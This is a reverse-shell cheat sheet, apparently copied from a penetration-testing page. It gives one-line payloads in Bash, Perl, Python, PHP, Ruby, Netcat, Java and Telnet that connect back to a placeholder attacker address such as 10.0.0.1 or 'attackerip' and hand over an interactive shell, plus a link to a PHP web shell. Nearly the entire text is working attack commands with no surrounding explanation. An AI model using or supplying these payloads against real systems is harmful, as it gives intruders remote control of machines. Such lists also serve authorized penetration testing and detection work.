 ### BASH
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

exec /bin/bash 0&0 2>&0

0<&196;exec 196<>/dev/tcp/attackerip/4444; sh <&196 >&196 2>&196

exec 5<>/dev/tcp/attackerip/4444
cat <&5 | while read line; do $line 2>&5 >&5; done  
or:
while read line 0<&5; do $line 2>&5 >&5; done

### PERL
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

### PYTHON
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

### PHP_SHELL
http://pentestmonkey.net/tools/web-shells/php-reverse-shell
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

### RUBY
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

ruby that doesn't depend on /bin/sh
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

ruby on windows
ruby -rsocket -e 'c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

### NETCAT
nc -e /bin/sh 10.0.0.1 1234

nc -c /bin/sh attackerip 4444

/bin/sh | nc attackerip 4444

rm -f /tmp/p; mknod /tmp/p p && nc attackerip 4444 0/tmp/p

wrong version of netcat:
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

### JAVA
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()

### TELNET
rm -f /tmp/p; mknod /tmp/p p && telnet attackerip 4444 0/tmp/p

telnet attackerip 4444 | /bin/bash | telnet attackerip 4445   # Remember to listen on your machine also on port 4445/tcp
